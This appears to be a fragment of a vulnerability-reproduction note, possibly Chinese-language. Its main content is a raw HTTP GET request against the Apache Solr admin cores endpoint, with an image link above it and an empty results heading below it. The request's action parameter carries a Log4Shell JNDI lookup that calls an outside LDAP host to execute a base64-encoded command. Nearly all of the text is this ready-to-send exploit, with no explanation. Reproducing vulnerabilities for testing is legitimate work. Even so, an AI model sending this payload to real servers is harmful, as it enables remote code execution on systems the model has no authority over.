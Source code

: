 ![image-20240605160052601](assets/image-20240605160052601.png)

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.64.1:1389/cHzHTdZTWy/Plain/Exec/eyJjbWQiOiJpcCBhZGRyIn0=} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close

```



结果：
